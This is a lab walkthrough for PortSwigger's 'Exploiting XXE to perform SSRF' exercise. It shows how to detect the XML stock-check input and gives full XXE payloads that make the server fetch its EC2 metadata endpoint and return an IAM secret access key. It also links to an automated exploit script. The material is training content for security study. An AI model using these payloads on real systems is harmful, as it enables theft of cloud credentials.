 \+ Lab #2    : Exploiting XXE to perform SSRF attacks\
\+ Lab Level : Apprentice\
\+ Link      : https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

## About:
This lab has a ```Check stock``` feature that parses XML input and returns any unexpected values in the response.<br/>
The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.<br/>
To solve the lab, exploit the [XXE vulnerability](https://portswigger.net/web-security/xxe) to perform an [SSRF attack](https://portswigger.net/web-security/ssrf) that obtains the server's IAM secret access key from the EC2 metadata endpoint. 

## End Goal:
Retrieve the server's IAM secret access key from the EC2 metadata endpoint. 

## Detection:
* First of all, we need to find an XML data entry point where we can test for XXE vulnerability.
* According to the lab description, the target Web Application has a check stock feature that parses XML input.
  ![XXE](https://user-images.githubusercontent.com/101610095/221443861-16357268-24f6-40be-9eba-cf94b6c412a8.png)
* Let's visit the ```/product``` page and intercept the POST request after clicking on the ```check stock``` button:
  ![XXE2](https://user-images.githubusercontent.com/101610095/221443309-560773a8-e280-438b-b7e9-162d23f0d046.png)
* As you can see here, after clicking on the check stock button, a client-side script issues a POST request to the server, and then the server respond with the following response:<br/> 
  ![XXE3](https://user-images.githubusercontent.com/101610095/221443796-aa626e12-d1df-4bc4-80a2-b2d2d82e0e89.png)
* The client-side script will then process the server's response and update part of the user interface by displaying the number of products left.<br/>
  ![XXE1](https://user-images.githubusercontent.com/101610095/221443008-d18e6537-9e12-4868-9742-a4f126fd598b.png)

## Exploitation:
### Manual:
#### Crafting the payload:
* In order to solve the lab, we need to perform a ```Server-Side Request Forgery (SSRF)``` to query and get EC2 instance metadata, which are located by default at ```/latest/meta-data/<metadata-path>```
> 📝: **NOTE:** <br/>
> For more information about EC2 metadata, refer to: https://towardsthecloud.com/amazon-ec2-instance-metadata
* In this lab, we need to extract the server's IAM secret access key, which means, we will replace ```<metadata-path>``` with ```iam```
* The malicious external entity should look to something like this:
```XML
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam"> ]>
```
* Now, all we need to do is to inject this external entity in between the ```XML Prolog``` and the root element ```<stockCheck>``` and replace the *productId* number with a reference to our malicious external entity ```&xxe;``` just like we did in the previous lab :
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam"> ]>
<stockCheck>
  <productId>
    &xxe;
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```
* Let's send the request:<br/>
  ![request3](https://user-images.githubusercontent.com/101610095/221720253-076cb0dc-091c-4f00-bfce-27f1c22ee7f4.png)
* Server's Response:<br/>
  ![response3](https://user-images.githubusercontent.com/101610095/221720300-fd110559-5019-451d-b854-58d2b7efebb7.png)
* As you can see, we got in the response a folder called ```security-credentials``` which will most likely contain the server's IAM secret access key.
* Let's update our payload and send the request: 
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials"> ]>
<stockCheck>
  <productId>
    &xxe;
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```
* Server's response: <br/>
  ![2023-02-28 01_30_27-Burp Suite Community Edition v2023 1 2 - Temporary Project](https://user-images.githubusercontent.com/101610095/221721050-5998738a-b6b8-46fd-9c88-cf30a3a76cba.png)

* The ```security-credentials``` folder contains another folder called ```admin```, which contains the server's IAM secret access key.
* Final Payload: 
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
  <productId>
    &xxe;
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```
* Request:<br/>
  ![request4](https://user-images.githubusercontent.com/101610095/221721580-3f9a9d9b-4dd1-433e-817f-2fe32aa7761d.png)
* Response: <br/>
  ![response4](https://user-images.githubusercontent.com/101610095/221721615-074b59a8-dd06-4e05-b2b3-129b7fde724c.png)

### Automated:
* Refer to https://github.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/blob/main/XXE%20Injection/Lab%232/Lab-2.py
* Requirements:
```bash
pip3 install -m requirements.txt
```
* Help Menu: 
```bash
usage: Lab-1.py [-h] -u URL -f FILE [-n] [-v]

Usage Example: python3 Lab-1.py --url https://0a2100.web-security-academy.net/ --no-proxy

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Enter the Lab URL
  -f FILE, --file FILE  Enter the path to the file you want to retrieve
  -n, --no-proxy        Do not use proxy
  -v, --verbose         Increase the verbosity level                             
```
![Lab2](https://user-images.githubusercontent.com/101610095/221735620-baed7f5a-caa2-4573-ad59-553c6f87c503.gif)
